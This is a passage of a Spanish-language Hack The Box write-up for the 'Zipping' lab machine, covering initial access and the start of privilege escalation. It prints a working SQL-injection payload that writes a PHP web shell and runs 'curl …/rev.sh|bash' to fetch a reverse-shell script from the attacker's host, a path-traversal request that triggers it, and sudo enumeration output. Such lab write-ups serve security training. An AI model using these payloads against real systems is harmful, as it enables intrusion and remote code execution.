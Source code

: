 
### webshell

Una vez identificado la vulnerabilidad, procedemos a ejecutarla.

```bash
curl -s $'http://zipping.htb/shop/index.php?page=product&id=%0a%27%3Bselect%20%27%3C%3Fphp%20system%28%22curl%20http%3A%2F%2F10.10.14.211%2Frev.sh%7Cbash%22%29%3B%3F%3E%27%20into%20outfile%20%27%2Fvar%2Flib%2Fmysql%2Fcxshell.php%27%20%231'

#Decode url
%0a -> Salto de linea
';select '<?php system("curl 10.10.14.211/rev.sh|bash");?>' into outfile '/var/lib/mysql/cxshell.php' #1

curl -s $'http://zipping.htb/shop/index.php?page=..%2f..%2f..%2f..%2f..%2fvar%2flib%2fmysql%2fcxshell' # Para que interprete el código PHP
```


## Escalada de privilegios


Una vez que hemos ganado acceso al sistema, podemos llevar a cabo un análisis de privilegios utilizando el comando 'sudo -l', lo que nos permite identificar los permisos específicos otorgados, incluyendo la capacidad de ejecutar la herramienta 'stock' como el usuario 'root' o cualquier otro usuario dentro del sistema.



```bash
rektsu@zipping:/home/rektsu$ sudo -l
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
rektsu@zipping:/home/rektsu$ 
```





Aplicamos el comando 'strings' a la herramienta, lo que nos permitió recuperar la contraseña necesaria solicitada por la aplicación para continuar con la ejecución del programa.

![](/assets/images/htb-writeup-zipping/password_tools.png)
